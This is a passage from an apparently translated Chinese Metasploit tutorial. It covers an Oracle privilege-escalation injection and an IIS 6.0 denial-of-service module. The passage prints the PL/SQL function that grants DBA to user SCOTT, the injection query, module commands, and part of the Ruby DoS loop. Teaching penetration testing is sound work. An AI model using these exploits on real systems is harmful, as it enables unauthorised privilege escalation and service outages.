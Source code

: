 ```
msf auxiliary(dbms_metadata_get_xml) > set RHOST 192.168.56.1
msf auxiliary(dbms_metadata_get_xml) > set SQL YES
msf auxiliary(dbms_metadata_get_xml) > run 
```

成功执行模块后，用户权限将从 `DB_USER`升级到 `DB_ADMINISTRATOR`。

我们将介绍的下一个模块与**拒绝服务（DOS）**攻击有关。我们将分析一个简单的 IIS 6.0 漏洞，该漏洞允许攻击者通过发送包含 40000 多个请求参数的 POST 请求使服务器崩溃。我们将很快分析该漏洞。此模块已在运行 IIS 6.0 的未修补的 Windows 2003 服务器上测试。我们将使用的模块是 `ms10_065_ii6_asp_dos:`

```
msf > use auxiliary/dos/windows/http/ms10_065_ii6_asp_dos
msf auxiliary(ms10_065_ii6_asp_dos) > show options
Module options (auxiliary/dos/windows/http/ms10_065_ii6_asp_dos):
Name Current Setting Required Description
---- --------------- -------- -----------
RHOST yes The target address
RPORT 80 yes The target port
URI /page.asp yes URI to request
VHOST no The virtual host name to..
msf auxiliary(ms10_065_ii6_asp_dos) > set RHOST 192.168.56.1
RHOST => 192.168.56.1
msf auxiliary(ms10_065_ii6_asp_dos) > run
[*] Attacking http://192.168.56.1:80/page.asp 
```

使用 run 命令执行模块后，它将通过在端口 80 上发送一个 URI 为 page.asp 的 HTTP 请求，开始攻击目标 IIS 服务器。成功执行模块将导致 IIS 服务器完全拒绝服务。

## 它是如何工作的。。。

让我们快速查看这两个漏洞。oracle 数据库漏洞是通过注入在 SYS 上下文中执行的自定义 PL/SQL 函数来利用的，它提升了用户“scott”作为管理员的权限。

考虑这个示例函数：

```
CREATE OR REPLACE FUNCTION "SCOTT"."ATTACK_FUNC" return varchar2 authid current_user as pragma autonomous_transaction; BEGIN EXECUTE IMMEDIATE 'GRANT DBA TO SCOTT'; COMMIT; RETURN ''; END; /

```

现在，在易受攻击的过程中注入此函数将导致用户权限提升。

```
SELECT SYS.DBMS_METADATA.GET_DDL('''||SCOTT.ATTACK_FUNC()||''','') FROM dual;

```

前面几行代码解释了注入过程。对 Oracle 软件漏洞的详细分析超出了本书的范围。

现在移动 DOS 攻击模块，该模块利用 IIS 6.0 服务器中的漏洞进行攻击。攻击者发送包含 40000 多个请求参数的 POST 请求，并以 `application/x-www-form-urlencoded`编码类型的形式发送。

以下是为模块服务的脚本的一部分：

```
while(1)
begin
connect
payload = "C=A&" * 40000
length = payload.size
sploit = "HEAD #{datastore['URI']} HTTP/1.1\r\n"
sploit << "Host: #{datastore['VHOST'] || rhost}\r\n"
sploit << "Connection:Close\r\n"
sploit << "Content-Type: application/x-www-form-urlencoded\r\n"
sploit << "Content-Length:#{length} \r\n\r\n"
sploit << payload
sock.put(sploit)
#print_status("DoS packet sent.")
disconnect
rescue Errno::ECONNRESET
```